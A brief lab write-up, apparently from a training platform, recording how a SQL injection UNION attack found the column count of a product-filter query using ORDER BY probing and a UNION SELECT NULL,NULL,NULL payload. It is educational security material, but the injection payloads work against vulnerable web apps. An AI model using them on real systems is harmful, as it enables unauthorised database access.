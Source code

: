 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

Target : determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

Analysis:

- /filter?category=Corporate+gifts'" -> returns 500 Internal Server Error
- fuzzing the application till `Corporate+gifts'+order+by+3+--` returns 200 ok and actually changing the order of the elements
- but when i used order by 4 -> returns 500 Error -> no. of columns is 3
- `Corporate+gifts'+UNION+SELECT+NULL+,+NULL+,+NULL+--` Payload to solve the lab

Background (Union):
Rule :

- the number and the order of yhe columns must be the same in all qyeries
- The data types must be compatible

SQLi attack (way #1):
select ? from table1 UNION select NULL
-> error -> wrong number of columns
select ? from table1 UNION select NULL, NULL

- 200 ok -> correct number of columns

SQLi attack (way #2):

select a,b from table1 order by 3
-> error -> which means the correct number is the number before the number raised the error
